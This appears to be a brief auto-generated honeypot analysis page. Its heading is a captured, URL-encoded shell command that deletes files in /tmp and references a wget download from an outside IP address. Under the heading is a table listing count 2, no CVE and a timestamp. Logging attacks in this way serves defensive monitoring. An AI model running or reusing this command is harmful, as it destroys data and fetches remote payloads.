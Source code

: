 # Analysis for /bin/bash%20-c%20%22rm%20-rf%20/tmp/*;echo%20wget%20http://205.185.122.121/China%22
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 2 | | 220110-033755 |

## CVE: 